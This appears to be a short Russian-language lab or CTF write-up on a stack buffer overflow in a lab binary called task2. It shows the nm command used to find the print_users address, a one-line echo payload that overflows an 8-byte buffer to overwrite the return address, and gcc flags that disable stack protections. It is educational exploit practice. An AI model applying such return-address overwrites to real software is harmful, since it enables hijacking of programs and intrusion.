

1) Найдем адрес функции ```print_users``` в стеке  
    Команда: ```nm -A task2 | grep print_users```  
    Вывод: ```task2:0000000000401146 T print_users```
2) Так как буфер размером 8 -> переполняем его и добавляем необходимый адрес:  
```echo -n -e "\x1\x2\x3\x4\x5\x6\x7\x8\x00\x00\x00\x00\x00\x00\x00\x00\x46\x11\x40" | ./task2```

1) ```gcc -fno-stack-protector -z execstack -no-pie -g -o task2 task2.c```
2) 